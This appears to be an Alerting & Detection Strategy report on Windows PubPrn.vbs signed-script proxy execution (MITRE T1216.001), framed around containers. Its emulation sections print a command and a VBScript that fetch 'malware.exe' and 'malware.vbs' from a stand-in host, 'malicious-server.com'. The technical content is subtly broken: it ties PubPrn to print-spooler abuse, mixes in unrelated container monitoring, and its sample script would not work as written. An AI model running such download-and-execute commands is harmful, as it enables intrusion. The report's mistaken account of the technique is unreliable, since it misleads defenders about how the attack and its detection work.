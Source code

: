# Alerting & Detection Strategy (ADS) Report: Detecting Adversarial Attempts to Bypass Security Monitoring Using Containers

## Goal
The primary goal of this detection strategy is to identify and mitigate adversarial attempts to bypass security monitoring through the misuse of container technologies, specifically focusing on techniques such as `T1216.001 - PubPrn`.

## Categorization
- **MITRE ATT&CK Mapping:** T1216.001 - PubPrn
- **Tactic / Kill Chain Phases:** Defense Evasion
- **Platforms:** Windows

For more information, refer to the [MITRE ATT&CK Reference](https://attack.mitre.org/techniques/T1216/001).

## Strategy Abstract
This detection strategy leverages a combination of log analysis and behavioral monitoring across multiple data sources, including:
- **Windows Event Logs**: To capture printer-related events and scripts execution.
- **Network Traffic Analysis**: To detect unusual network activity associated with containerized environments.
- **File Integrity Monitoring (FIM)**: To identify unauthorized changes or additions to scripts like `PubPrn.vbs`.

The strategy involves pattern recognition for anomalous behaviors, such as:
- Unexpected usage of `cscript` or `wscript` in combination with `.vbs` files.
- Unusual network traffic patterns from containerized processes.

## Technical Context
Adversaries may use techniques such as `PubPrn.vbs` to bypass security measures by executing malicious scripts through legitimate Windows functionalities like printing. The technique involves crafting a VBScript file that abuses the print spooler service, which can be executed without triggering traditional antivirus detections due to its use of built-in system utilities.

### Adversary Emulation Details
- **Sample Command**: 
  ```bash
  cscript.exe //nologo PubPrn.vbs http://malicious-server.com/malware.exe
  ```
- **Test Scenario**:
  - Deploy a containerized environment with Windows as the host.
  - Execute `PubPrn.vbs` script within this environment to simulate an adversary’s actions.

## Blind Spots and Assumptions
- **Blind Spots**: Detection may not cover all variations of VBScript-based evasion techniques or those that employ additional obfuscation methods.
- **Assumptions**:
  - The presence of a print spooler service in the environment.
  - Accurate logging of script execution events.

## False Positives
Potential benign activities that might trigger false alerts include:
- Legitimate use of `cscript` or `wscript` for administrative tasks.
- Standard network traffic from containers performing routine operations involving VBScript files.

## Priority
**Priority: High**

Justification:
- This technique allows adversaries to evade detection while executing malicious payloads, posing significant security risks.
- The high degree of stealth associated with such methods makes them attractive to sophisticated threat actors.

## Validation (Adversary Emulation)
### Step-by-step Instructions to Emulate `PubPrn.vbs` Signed Script Bypass:

1. **Setup Environment**:
   - Prepare a Windows-based container environment with necessary network access and administrative privileges.
   
2. **Create the VBScript**:
   ```vbscript
   Set oWS = WScript.CreateObject("WScript.Shell")
   strComputer = "."
   Set objWMIService = GetObject("winmgmts:\\" & strComputer & "\root\cimv2")
   Set colItems = objWMIService.ExecQuery _
     ("Select * from Win32_Process where Name = 'spoolsv.exe'")
   
   For Each objItem in colItems
       intJobId = oWS.Run("cmd /C echo y|net use \\server\share /user:domain\username password", 0, True)
       strCommandToRun = "cscript //nologo http://malicious-server.com/malware.vbs"
       objItem.Create(strCommandToRun)
   Next
   ```
   
3. **Deploy and Execute**:
   - Place the script in a location accessible by the containerized process.
   - Execute using `cscript.exe` or `wscript.exe`.

4. **Monitor Logs**:
   - Check Windows Event Viewer for signs of script execution and network traffic logs for unusual activity.

## Response
When an alert related to this technique is triggered, analysts should:

1. **Verify the Alert**: Confirm if the detected activity aligns with known patterns of `T1216.001`.
2. **Isolate Affected Systems**: Temporarily quarantine the affected container or host system.
3. **Investigate Further**:
   - Examine logs for additional evidence of malicious behavior.
   - Use sandboxing tools to analyze any downloaded executables.

4. **Report and Remediate**: Document findings, remediate vulnerabilities, and update detection rules as necessary.

## Additional Resources
- [Pubprn.vbs Proxy Execution](https://attack.mitre.org/techniques/T1216/001)
- [WSF/JSE/JS/VBA/VBE File Execution Via Cscript/Wscript](https://attack.mitre.org/techniques/T1059.002/)

This report aims to provide a comprehensive framework for detecting adversarial attempts using container technologies while addressing potential challenges and limitations in the detection process.